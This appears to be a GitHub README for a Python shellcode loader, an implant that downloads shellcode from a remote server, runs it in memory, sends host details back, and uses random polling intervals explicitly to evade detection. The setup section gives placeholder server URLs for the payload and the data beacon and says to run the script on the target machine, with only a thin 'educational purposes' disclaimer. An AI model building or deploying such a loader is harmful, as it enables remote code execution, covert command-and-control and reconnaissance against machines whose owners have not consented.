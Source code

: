 # Shellcode loader
Shellcode loader written in Python.

Overview

This project provides a basic shellcode loader written in Python. The loader:

    Fetches shellcode from a specified URL.
    Executes the shellcode directly in memory.
    Collects basic metadata about the host machine.
    Sends the metadata back to a specified server.
    Polls the server at random intervals to disguise traffic patterns (jitter).

Note: This tool is intended for educational purposes or controlled environments. Executing shellcode can be dangerous and should be done responsibly and legally.
Features

    Dynamic Shellcode Loading: The loader does not have the shellcode embedded in it but fetches it from a server.
    Metadata Reporting: Sends basic system information (e.g., OS, hostname, architecture) to a server.
    Jitter Implementation: Polls the server at random intervals to reduce detection.

Requirements

    Python 3.x
    Internet connection for fetching shellcode and sending metadata

Setup

    Prepare the Server:
        Host your shellcode binary (e.g., shellcode.bin) on a web server.
        Create an endpoint to receive metadata (e.g., metadata endpoint).

    Modify the Script:
        Update the URLs in the script with your server's URLs:

        python

    shellcode_url = "http://your-server.com/shellcode.bin"
    metadata_url = "http://your-server.com/metadata"

Run the Script:

    Execute the Python script on the target machine:

"""python shellcode_loader.py"""
